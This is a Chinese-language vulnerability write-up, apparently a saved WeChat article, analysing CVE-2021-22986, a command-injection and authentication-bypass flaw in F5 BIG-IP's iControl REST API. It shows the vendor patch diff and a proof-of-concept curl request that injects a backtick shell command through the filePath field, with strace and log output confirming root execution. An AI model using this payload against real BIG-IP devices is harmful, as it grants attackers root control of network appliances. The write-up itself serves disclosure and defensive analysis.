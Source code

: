 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/djS7ZGLPO7yJIcH752OUag)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2FepDfzuENQrwqduXoqB9IRlcj3s6VK24iclpYJXWcB2ofhxzJluUnxXjyHsW95r3icMJK3B0wgMDQ/640?wx_fmt=png)

  
        此漏洞允许未经身份验证的攻击者通过 BIG-IP 管理界面和自身 IP 地址对 iControl REST 接口进行网络访问，以执行任意系统命令，创建或删除文件以及禁用服务。此漏洞只能通过控制平面利用，而不能通过数据平面利用。剥削可能导致完全的系统危害。设备模式下的 BIG-IP 系统也容易受到攻击。

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2FepDfzuENQrwqduXoqB9IYaQ2a4rB1WJRwhuyViaMBsZpbnnN6mfKrWjoFuxSCsrwvvvNca8WNtg/640?wx_fmt=png)

CVE-2021-22986
==============

        从补丁分析和测试来看，此漏洞似乎涉及某种身份验证绕过甚至 SSRF。下面的完整上下文修补程序已对其行号进行了调整，以供在调试器中使用。

RCE
---

        这是命令中的认证后根命令注入`tar(1)`

### 修补

        过滤将应用于用户控制的`taskState.filePath`参数

```
[snip]
+  private static final Pattern validFilePathChars = Pattern.compile("(^[a-zA-Z][a-zA-Z0-9_.\\-\\s()]*)\\.([tT][aA][rR]\\.[gG][zZ])$");
[snip]
   private void validateGzipBundle(final IAppBundleInstallTaskState taskState) {
     if (Utilities.isNullOrEmpty(taskState.filePath)) {
       File agcUseCasePackDir = new File("/var/apm/f5-iappslx-agc-usecase-pack/");
       if (!agcUseCasePackDir.exists() || !agcUseCasePackDir.isDirectory()) {
         String error = "Access Guided Configuration use case pack not found on BIG-IP. Please upload and install the pack.";
         failTask(taskState, error, "");
         return;
       }
       File[] agcUseCasePack = agcUseCasePackDir.listFiles();
       if (agcUseCasePack == null || agcUseCasePack.length == 0 || !agcUseCasePack[0].isFile()) {

         String error = "Access Guided Configuration use case pack not found on BIG-IP. Please upload and install the pack.";
         failTask(taskState, error, "");
         return;
       }
       taskState.filePath = agcUseCasePack[0].getPath();
     }

+    String filename = taskState.filePath.substring(taskState.filePath.lastIndexOf('/') + 1);
+    Matcher m = validFilePathChars.matcher(filename);
+    if (!m.matches()) {
+      String errorMessage = String.format("Access Guided Configuration use case pack validation failed: the file name %s must begin with alphabet, and only contain letters, numbers, spaces and/or special characters (underscore (_), period (.), hyphen (-) and round brackets ()). Only a .tar.gz file is allowed", new Object[] { filename });
+
+
+
+      failTask(taskState, errorMessage, "");
+
+      return;
+    }
     final String extractTarCommand = "tar -xf " + taskState.filePath + " -O > /dev/null";


     ShellExecutor extractTar = new ShellExecutor(extractTarCommand);

     CompletionHandler<ShellExecutionResult> executionFinishedHandler = new CompletionHandler<ShellExecutionResult>()
       {
         public void completed(ShellExecutionResult extractQueryResult)
         {
           if (extractQueryResult.getExitStatus().intValue() != 0) {
             String error = extractTarCommand + " failed with exit code=" + extractQueryResult.getExitStatus();


             IAppBundleInstallTaskCollectionWorker.this.failTask(taskState, "Usecase pack validation failed. Please ensure that usecase pack is a valid tar archive.", error + "stdout + stderr=" + extractQueryResult.getOutput());


             return;
           }


           taskState.step = IAppBundleInstallTaskState.IAppBundleInstallStep.QUERY_INSTALLED_RPM;
           IAppBundleInstallTaskCollectionWorker.this.sendStatusUpdate(taskState);
         }


         public void failed(Exception ex, ShellExecutionResult rpmQueryResult) {
           IAppBundleInstallTaskCollectionWorker.this.failTask(taskState, "Usecase pack validation failed. Please ensure that usecase pack is a valid tar archive.", String.format("%s failed", new Object[] { this.val$extractTarCommand }) + RestHelper.throwableStackToString(ex));
         }
       };



     extractTar.startExecution(executionFinishedHandler);
   }
[snip]
```

### PoC

        受影响的端点为`/mgmt/tm/access/bundle-install-tasks`

```
wvu@kharak:~$ curl -ksu admin:[redacted] https://192.168.123.134/mgmt/tm/access/bundle-install-tasks -d '{"filePath":"`id`"}' | jq .
{
  "filePath": "`id`",
  "toBeInstalledAppRpmsIndex": -1,
  "id": "36671f83-d1be-4f5a-a2e6-7f9442a2a76f",
  "status": "CREATED",
  "userReference": {
    "link": "https://localhost/mgmt/shared/authz/users/admin"
  },
  "identityReferences": [
    {
      "link": "https://localhost/mgmt/shared/authz/users/admin"
    }
  ],
  "ownerMachineId": "ac2562f0-e41f-4652-ba35-6a2b804b235e",
  "generation": 1,
  "lastUpdateMicros": 1615930477819656,
  "kind": "tm:access:bundle-install-tasks:iappbundleinstalltaskstate",
  "selfLink": "https://localhost/mgmt/tm/access/bundle-install-tasks/36671f83-d1be-4f5a-a2e6-7f9442a2a76f"
}
wvu@kharak:~$
```

 ``该`id(1)`命令以root用户身份执行``

```
[pid 64748] execve("/bin/tar", ["tar", "-xf", "uid=0(root)", "gid=0(root)", "groups=0(root)", "context=system_u:system_r:initrc_t:s0", "-O"], [/* 9 vars */]) = 0
```

 ``可能会出现错误`/var/log/restjavad.0.log` ``

```
[SEVERE][10029][16 Mar 2021 21:34:37 UTC][8100/tm/access/bundle-install-tasks IAppBundleInstallTaskCollectionWorker] Usecase pack validation failed. Please ensure that usecase pack is a valid tar archive. error details: tar -xf `id` -O > /dev/null failedorg.apache.commons.exec.ExecuteException: Process exited with an error: 2 (Exit value: 2)
  at org.apache.commons.exec.DefaultExecutor.executeInternal(DefaultExecutor.java:404)
  at org.apache.commons.exec.DefaultExecutor.access$200(DefaultExecutor.java:48)
  at org.apache.commons.exec.DefaultExecutor$1.run(DefaultExecutor.java:200)
  at java.lang.Thread.run(Thread.java:748)
```

RCE 更新
------

        Rich Warren 已使用 SSRF 制作了完整的 RCE 链！

`参考文献：`

`https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986`